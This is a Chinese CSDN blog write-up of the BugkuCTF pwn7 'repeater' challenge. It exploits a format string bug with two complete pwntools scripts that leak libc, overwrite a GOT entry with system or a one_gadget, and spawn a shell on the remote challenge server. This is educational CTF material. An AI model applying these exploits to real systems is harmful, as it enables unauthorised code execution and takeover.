








<!--yml
category: 未分类
date: 2022-04-26 14:47:21
-->

# BugkuCTF-PWN题pwn7-repeater详细讲解多解法_彬彬有礼am_03的博客-CSDN博客

> 来源：[https://blog.csdn.net/am_03/article/details/120014739](https://blog.csdn.net/am_03/article/details/120014739)

## 知识点



## 解题流程

## 方法一

查看文件类型：

32位文件

查看保护机制

只开启了NX

32位IDA打开
伪码：

0x70=112
0x64=100
发现该题目为典型的格式字符串漏洞。

## 解题思路

此题的大概思路如下：
1、找到libc_start_main在栈内的偏移，使用%p暴露该地址
2、利用LibcSearcher猜测使用的libc，算出libc基址
3、计算出此libc的system地址
4、把prinf的got表改为system地址
5、执行system(’/bin/sh’)

## 具体调试

执行gdb pwn7调试程序
使用b printf在printf处下断点
输入r执行程序
程序提示用户输入
输入123456回车
此时程序运行到printf语句停止

pwndbg调试

输入stack 60命令查看栈情况
可以看到，在0xffffcf18处为之前输入的123456
在0xffffcf8c处为libc_start_main+247
使用fmtarg 0xffffcf8c算出偏移，此处知道了为%35$p
使用fmtarg属于懒人做法，需安装在gdb里。


## 具体方法

exp:

```
 from pwn import *
import sys

from LibcSearcher import *
context.log_level="debug"
context.terminal = ['gnome-terminal','-x','sh','-c']

if sys.argv[1] == '0':
    p = process('./pwn7')

    libc = ELF("/lib/i386-linux-gnu/libc.so.6")

elif sys.argv[1] == '1':
    p = remote("114.67.246.176",19888)

elf=ELF('./pwn7')
printf_GOT=elf.got['printf']
log.success('printf_GOT'+hex(printf_GOT))

p.sendafter('repeater','%35$p')
p.recvuntil('0x',drop=True)
libc_start_main=int(p.recv(8),16)-247

libc=LibcSearcher("__libc_start_main", libc_start_main)
libc_base=libc_start_main-libc.dump('__libc_start_main')   
log.success('libc_base'+hex(libc_base))
printf=libc.dump('printf')+libc_base   
log.success('printf'+hex(printf))
system=libc.dump('system')+libc_base   
log.success('system'+hex(system))

ch0=system&0xffff
ch1=(((system>>16)&0xffff)-ch0)&0xffff
payload="%"+str(ch0)+"c%16$hn"
payload+="%"+str(ch1)+"c%17$hn"
payload=payload.ljust(40,'a')

payload+=p32(printf_GOT)
payload+=p32(printf_GOT+2)
p.send(payload)
p.recvline()

p.send('/bin/sh\x00')
p.interactive() 
```

## 方法二（需要加载libc版本）

由于方法二我不知道大佬加载的libc版本是哪一个，所以没有成功实现

gdb里调试到printf(buf)

如图 ：
我通过read输入的是flag 容易看出偏移是 0x18/4 = 6
(64位里偏移是6 + offset_rsp/8 32位里偏移则为offset_esp/4 ）
或者直接经典payload测 ：
AAAA%p.%p.%p.%p.%p.%p.%p.%p.
然后数数
测出偏移后
第一步 : 先通过printf(buf) 泄露libc
payload = p32(read_got) + b"%6$s"

我这个是泄露的read的地址
泄露地址后通过 https://libc.blukat.me/下载相应版本的libc.so(当然也可以用LibcSearcher然后改写got表为system的，再输入bin/sh字符串，这里为one_gadget的打法)

第二步 ： 改写read的got表为one_gadget的地址

完整exp如下 ：

```
from pwn import*
from LibcSearcher import LibcSearcher
context.log_level = "debug"
elf = ELF("./pwn")
libc = ELF("./libc.so")
io = remote("114.67.246.176","19888")
read_got = elf.got["read"]
pd = b"%6$s" + p32(read_got)
io.recvuntil("Do you know repeater?\n")
io.send(pd)
read_addr = u32(io.recv(8)[-4:])   
print(hex(read_addr))
libc_base = read_addr - libc.sym["read"]   
og = [0x3a822,0x3a829,0x5f075,0x5f076]
one_gadget = libc_base + og[3]
payload = fmtstr_payload(6,{read_got : one_gadget},write_size = "byte",)
io.send(payload)
io.interactive() 
```

运行脚本
得到flag{ec228e717282513a}

io.recv(8)[-4:]：取后四位字节


可能有小伙伴对于最后的fmtstr_payload有点疑惑：
fmtstr_payload 是pwntools里面的一个小工具 ，简化格式化字符串payload的构造
fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload
fmstr_payload 的官方文档 ： [https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)